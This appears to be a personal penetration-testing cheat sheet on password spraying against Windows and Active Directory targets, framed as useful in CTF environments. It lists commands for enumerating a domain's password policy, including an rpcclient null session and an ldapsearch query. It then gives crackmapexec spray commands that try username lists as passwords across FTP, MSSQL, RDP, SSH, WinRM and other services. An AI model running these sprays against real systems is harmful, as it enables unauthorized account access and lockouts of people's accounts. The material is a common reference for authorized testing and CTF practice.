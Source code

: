 ```yaml
---
description: >-
  Once you check the target's password policy, it might be beneficiary to run a
  password spray to get successful user/password combinations. Especially useful
  in CTF environment.
---
```


# Q password spray

### Enumeration on [Password Policy](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10; 
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```

### Execution

{% code overflow="wrap" %}
```bash
# Use My own script
# 
qspray nmap/all.nmap 

# crackmapexec !
cme ftp $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme mssql $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme wmi $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme rdp $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme ldap $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme ssh $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme vmc $RHOST -u usernames.txt -p usernames.txt --continue-on-success
cme winrm $RHOST -u usernames.txt -p usernames.txt --continue-on-success
```
{% endcode %}
